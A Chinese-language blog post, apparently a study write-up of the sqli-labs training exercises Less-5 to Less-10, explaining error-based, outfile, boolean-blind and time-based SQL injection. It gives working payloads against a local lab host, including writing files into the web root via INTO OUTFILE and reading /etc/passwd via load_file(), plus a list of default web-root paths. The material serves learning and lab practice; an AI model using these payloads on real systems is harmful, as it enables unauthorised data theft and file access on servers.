 ```yaml
---
layout: post
title: SQL注入（七）
desc: ""
keywords: ""
date: 2016-10-26
categories: []
tags: []
---
```


<h2>Less-5(又乱了 此坑待填)</h2>

第五课到了报错注入和双注入，于是又折腾了好几天，花了很长时间理解原理和构造语句，仔细总结下吧。

<h3>形式</h3>

观察发现，在无错情况下只会显示“You are in...”，而在加单引号报错情况下才会显示一些信息。因此我们应该构造一个语句让他报错，在报错信息中把我们需要的其他信息带出来

<h3>知识点</h3>

<ul>
    <li>子查询</li>
    <li>Group by函数</li>
    <li>聚合函数</li>
    <li>rand()和floor()</li>
    <li>concat()</li>
</ul>

子查询：Select concat((<strong>select database()</strong>)); 这种形式就是多重查询，其中加粗部分会被优先执行，并将其结果返回给外层

Group by：

<h2>Less-7</h2>

第七课是通过outfile函数来下载数据库到外部文件，我们可以通过访问这个文件获取数据库中的信息，甚至可以通过与一些其他命令的结合来获取系统的密码文件等信息。

<h3>初步判断</h3>

正确的页面是"You are in...Use outfile"

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_basic.png" />

报错的页面是"You have an error in your SQL syntax..."

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_error.png" />

通过order by语句来先探查字段数目

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_number.png" />

判断闭合方法（神特么能猜到==我还是太年轻）

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_back2normal.png" />

<h3>条件</h3>

如果要正确的写入，需要以下几个条件：

<ul>
    <li>需要知道系统网站的默认路径，如果缺少了这个信息我们就看不到导出的文件</li>
    <li>需要知道字段数目，否则就不能正确的生成和到处文件</li>
    <li>需要注意路径名要用绝对路径，比如"/opt/lampp/htdocs/sqli/test.txt"，之前前面没有加斜杠被坑了很久</li>
    <li>可能还存在权限问题，比如某文件夹没有写入权限。这时候可以考虑下/tmp文件夹，这个由于是存放临时文件，一般都有写入权限，不过好像没啥用哈</li>
</ul>

一些常见网站配置的默认路径（从老大那里转载的）：

<ul>
    <li>WindowsServer IIS：c://inetpub/wwwroot/(asp)</li>
    <li>Linux Nginx：
<ul>
    <li>/usr/local/nginx/html</li>
    <li>/home/wwwroot/default</li>
    <li>/usr/share/nginx</li>
    <li>/var/www/html</li>
</ul>
</li>
    <li>Linux Apache：
<ul>
    <li>/var/www/htm</li>
    <li>/var/www/html/htdocs</li>
</ul>
</li>
    <li>Linux Xampp集成：/opt/lampp/htdocs/</li>
</ul>

<h3>写入语句</h3>

<pre class="lang:tsql decode:true" title="Payload">http://192.168.15.137/sqli/Less-7/?id=1')) union select 1,2,3 into outfile "
/opt/lampp/htdocs/sqli/Less-7/eee.txt" --+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_outfile.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_result.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less7_read.png" />

我们也可以通过load_file()函数来调用载入外部文件，例如可以去调用"/etc/passwd"文件，把他导出

<pre class="lang:default decode:true" title="Passwd">http://192.168.15.137/sqli/Less-7/?id=1'))  union select 1,2,load_file("/etc/passwd") into outfile 
"/opt/lampp/htdocs/sqli/Less-7/hehe.txt" --+
</pre>

玩法有很多，自己开发。

<h2>Less-8</h2>

基于布尔值的盲注

<h3>Length()</h3>

用于输出所选内容的长度，例如<code>select length("hahaha")</code>显示结果为6

<h3>Substr()</h3>

substr(str, pos, len) 该函数用于截断字符串，第一个参数是所需切分的字符串，第二个选项是起点，第三个选项是步长。需要注意的是，pos是从1开始的。例如<code>select substr("hello"),1,2</code>显示结果应该是"he"

<h3>Ascii()</h3>

ascii(str) 该函数接受字符，并将其转化为ASCII码，这样能方便我们用二分法更快的查找正确的字符对应的ASCII码，这样就能获取到字符的信息

<h3>特征</h3>

可以看到我们正常访问时有提示"You are in..."，但如果报错的话就没有回显。我们能得到的信息只有布尔值，因此称之为基于布尔值的注入。

<h3>Payload</h3>

<pre class="lang:tsql decode:true" title="Payload">?id' and (select ascii(substr(database(),1,1)) &gt; 100)--+ //true
?id' and (select ascii(substr(database(),1,1)) &lt; 150)--+ //true
?id' and (select ascii(substr(database(),1,1)) &gt; 125)--+ //false
?id' and (select ascii(substr(database(),1,1)) &gt; 112)--+ //true
?id' and (select ascii(substr(database(),1,1)) &gt; 118)--+ //false
?id' and (select ascii(substr(database(),1,1)) = 115)--+ //true</pre>

二分法查找，同理可猜测其他字符

<strong>脚本自动化盲注</strong>

<h2>Less-9&amp;Less-10</h2>

单引号型基于时间的盲注，或双引号（逃

<h3>Sleep()</h3>

sleep(int) 该函数接受一个整数作为参数，运行成功后会将整个程序挂起若干秒。因此我们可以在无回显时用这个来作为payload是否执行的标志。

<h3>If()</h3>

if(expr1, expr2, expr3) 该函数接受三个参数，当expr1为真时，返回expr2，否则返回expr3的结果。

<h3>判断闭合情况</h3>

<pre class="lang:tsql decode:true " title="Determin">id=1 and sleep(10) +--+
id=1' and sleep(10) +--+
id=1') and sleep(10) +--+
id=1" and sleep(10) +--+
id=1") and sleep(10) +--+</pre>

<h3>Payload</h3>

<pre class="lang:default decode:true " title="Payload">id=1' and (select if(ascii(substr((select table_name from information_schema.tables 
where table_schema=database() limit 0,1),1,1))=111,sleep(10),NULL))--+</pre>

<hr />

系统崩了，重装前忘了备份这个文件...

于是大半夜重写了一遍啊啊啊啊啊

嗯，受某人影响还是觉得应该改改自己的性格。做一件事就做到最好。

&nbsp;